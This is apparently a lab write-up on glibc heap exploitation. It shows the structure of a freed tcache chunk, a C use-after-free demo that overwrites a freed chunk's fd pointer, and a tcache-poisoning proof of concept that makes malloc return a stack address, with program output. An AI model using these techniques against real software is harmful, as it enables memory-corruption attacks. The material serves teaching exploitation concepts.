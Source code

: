 ## The Structure of a Freed Chunk

* The first 8 bytes = `fd`
* The second 8 bytes = `key` (used to detect double free)

<br>

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

typedef struct {
        char owner[8];
        unsigned long long int uuid;
        unsigned long long int size;
        char data[1];
} note_t;

int main() {
        intptr_t *n1 = malloc(sizeof(note_t));
        intptr_t *n2 = malloc(sizeof(note_t));

        free(n1);
        free(n2);

        printf("n2's fd: 0x%lx\n", (intptr_t) n2[0]);

        // We should have set n2 to NULL after freeing it,
        // now UAF will take place, and something bad will happen...
        strncpy(((note_t *) n2)->owner, "fuck", 8);
        printf("n2's fd: 0x%lx\n", (intptr_t) n2[0]);
}
```

<br>

Run this program, and we'll notice that `n2`'s fd pointer has been overwritten to `fuck`.
```
n2's fd: 0x563142eeb2a0
n2's fd: 0x6b637566
```

<br>

* Before `n2` is freed, the user has full control over the entire chunk.
* After `n2` is freed, the user (normally) shouldn't have access to `n2` anymore.
* This UAF bug gives user access to `n2` even `n2` has been freed, which can further contribute to tcache poisoning.

<br>

## tcache poisoning

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
        // disable buffering
        setbuf(stdin, NULL);
        setbuf(stdout, NULL);

        size_t stack_var;
        printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

        printf("Allocating 2 buffers.\n");
        intptr_t *a = malloc(128);
        printf("malloc(128): %p\n", a);
        intptr_t *b = malloc(128);
        printf("malloc(128): %p\n", b);

        printf("Freeing the buffers...\n");
        free(a);
        free(b);

        printf("Now the tcache list has [ %p -> %p ].\n", b, a);
        printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
               "to point to the location to control (%p).\n", sizeof(intptr_t), b, &stack_var);
        b[0] = (intptr_t) &stack_var;

        printf("Now the tcache list has [ %p -> %p ].\n", b, &stack_var);

        printf("1st malloc(128): %p\n", malloc(128));
        printf("Now the tcache list has [ %p ].\n", &stack_var);

        intptr_t *c = malloc(128);
        printf("2nd malloc(128): %p\n", c);
        printf("We got the control\n");

        assert((long)&stack_var == (long)c);
        return 0;
}
```

<br>



```
n2's fd: 0x563142eeb2a0
n2's fd: 0x6b637566
root@67b89638f731:/home/tcachelab# ./out
The address we want malloc() to return is 0x7ffefab4ae08.
Allocating 2 buffers.
malloc(128): 0x565190d4b2a0
malloc(128): 0x565190d4b330
Freeing the buffers...
Now the tcache list has [ 0x565190d4b330 -> 0x565190d4b2a0 ].
We overwrite the first 8 bytes (fd/next pointer) of the data at 0x565190d4b330
to point to the location to control (0x7ffefab4ae08).
Now the tcache list has [ 0x565190d4b330 -> 0x7ffefab4ae08 ].
1st malloc(128): 0x565190d4b330
Now the tcache list has [ 0x7ffefab4ae08 ].
2nd malloc(128): 0x7ffefab4ae08
We got the control
```
